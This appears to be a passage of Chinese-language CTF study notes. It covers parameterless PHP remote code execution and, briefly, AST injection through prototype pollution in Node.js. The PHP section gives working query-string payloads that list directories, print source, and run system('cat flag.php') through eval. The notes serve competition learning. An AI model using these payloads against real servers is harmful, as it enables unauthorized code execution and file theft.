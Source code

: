 
---
### 无参数RCE
> 2024年浙江省赛出现了，当时做的很慢，很久没碰了

在杨杰的笔记中找到了相关的操作：
```php
?c = print_r(scandir(current(localeconv())));show_source(next(array_reverse(scandir(pos(localeconv())))))
# 查找定义的变量传参执行：
?c = print_r(get_defined_vars())
?c = print_r(next(get_defined_vars()))
?c = eval(array_pop(next(get_defined_vars())));daigua=system('cat flag.php');
```

---
## 原型链污染
### AST注入 - 从原型链污染到RCE
#### 概念 - 什么是 AST 注入
在`NodeJS`中，`AST`经常被在`JS`中使用，作为`template engines(引擎模板)`和`typescript`等。对于引擎模板，结构如下图所示：

![image](./asserts/什么是AST注入-0.png)

如果在`JS`应用中存在原型链污染漏洞，任何 `AST` 都可以通过在 `Parser(解析器)` 或 `Compiler(编译器)`过程中插入到函数中。
